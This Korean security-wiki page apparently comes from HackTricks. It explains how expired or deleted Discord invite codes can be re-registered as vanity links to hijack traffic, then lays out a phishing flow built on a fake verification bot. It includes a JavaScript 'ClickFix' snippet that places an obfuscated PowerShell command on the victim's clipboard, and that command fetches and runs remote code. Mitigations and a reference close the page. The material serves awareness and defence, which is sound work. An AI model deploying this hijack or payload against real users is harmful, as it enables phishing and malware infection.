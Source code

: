 # Discord 초대 코드 탈취

{{#include ../../banners/hacktricks-training.md}}

Discord의 초대 시스템 취약점은 위협 행위자가 만료되거나 삭제된 초대 코드를 새로운 맞춤 링크로 주장할 수 있게 합니다(임시, 영구 또는 사용자 정의). 모든 코드를 소문자로 정규화함으로써, 공격자는 알려진 초대 코드를 사전 등록하고 원래 링크가 만료되거나 소스 서버의 부스트가 사라지면 조용히 트래픽을 탈취할 수 있습니다.

## 초대 유형 및 탈취 위험

| 초대 유형               | 탈취 가능? | 조건 / 비고                                                                                             |
|-----------------------|-------------|--------------------------------------------------------------------------------------------------------|
| 임시 초대 링크         | ✅          | 만료 후, 코드는 사용 가능해지며 부스트 서버에 의해 맞춤 URL로 재등록될 수 있습니다.                     |
| 영구 초대 링크         | ⚠️          | 삭제되고 소문자와 숫자로만 구성된 경우, 코드는 다시 사용 가능해질 수 있습니다.                          |
| 사용자 정의 맞춤 링크  | ✅          | 원래 서버가 Level 3 Boost를 잃으면, 해당 맞춤 초대는 새로운 등록을 위해 사용 가능해집니다.            |

## 악용 단계

1. 정찰
- `discord.gg/{code}` 또는 `discord.com/invite/{code}` 패턴과 일치하는 초대 링크를 위해 공개 소스(포럼, 소셜 미디어, 텔레그램 채널)를 모니터링합니다.
- 관심 있는 초대 코드를 수집합니다(임시 또는 맞춤).
2. 사전 등록
- Level 3 Boost 권한이 있는 Discord 서버를 생성하거나 기존 서버를 사용합니다.
- **서버 설정 → 맞춤 URL**에서 대상 초대 코드를 할당하려고 시도합니다. 수락되면, 코드는 악의적인 서버에 의해 예약됩니다.
3. 탈취 활성화
- 임시 초대의 경우, 원래 초대가 만료될 때까지 기다립니다(또는 소스를 제어하는 경우 수동으로 삭제합니다).
- 대문자가 포함된 코드의 경우, 소문자 변형은 즉시 주장할 수 있지만, 리디렉션은 만료 후에만 활성화됩니다.
4. 조용한 리디렉션
- 사용자가 이전 링크를 방문하면 탈취가 활성화된 후 공격자가 제어하는 서버로 원활하게 전송됩니다.

## Discord 서버를 통한 피싱 흐름

1. 서버 채널을 제한하여 **#verify** 채널만 보이도록 합니다.
2. 봇(예: **Safeguard#0786**)을 배포하여 신규 사용자가 OAuth2를 통해 인증하도록 유도합니다.
3. 봇이 사용자를 피싱 사이트(예: `captchaguard.me`)로 리디렉션합니다. 이는 CAPTCHA 또는 인증 단계의 가장을 씁니다.
4. **ClickFix** UX 트릭을 구현합니다:
- 깨진 CAPTCHA 메시지를 표시합니다.
- 사용자가 **Win+R** 대화 상자를 열고 미리 로드된 PowerShell 명령을 붙여넣고 Enter를 누르도록 안내합니다.

### ClickFix 클립보드 주입 예시
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
이 접근 방식은 직접 파일 다운로드를 피하고 사용자 의심을 줄이기 위해 친숙한 UI 요소를 활용합니다.

## 완화 조치

- 최소한 하나의 대문자 또는 비알파벳 문자가 포함된 영구 초대 링크를 사용하세요 (만료되지 않으며 재사용할 수 없음).
- 정기적으로 초대 코드를 변경하고 오래된 링크를 취소하세요.
- Discord 서버 부스트 상태 및 사용자 정의 URL 청구를 모니터링하세요.
- 사용자에게 서버의 진위를 확인하고 클립보드에 붙여넣은 명령을 실행하지 않도록 교육하세요.

## 참고 문헌

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}

